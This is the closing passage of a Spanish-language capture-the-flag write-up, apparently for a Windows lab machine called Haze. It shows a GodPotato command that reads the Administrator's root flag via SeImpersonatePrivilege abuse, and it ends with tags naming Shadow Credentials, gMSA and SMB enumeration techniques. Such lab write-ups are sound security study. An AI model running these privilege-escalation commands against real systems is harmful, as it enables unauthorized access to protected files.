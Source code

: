 Y para ver la Flag del usario Administrator 

```powershell
./gp.exe -cmd 'cmd /c type C:\Users\Administrator\Desktop\root.txt'
```

![paste](./images/47.jpeg)


Felicidades Haze has been Pwned!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

![paste](./images/48.jpeg)


#Windows #CVE #ShadowCredential #Python #nxc #gMSA #EnumerationSMB #ldapdomaindump #GodPotato #SeImpersonatePrivilege 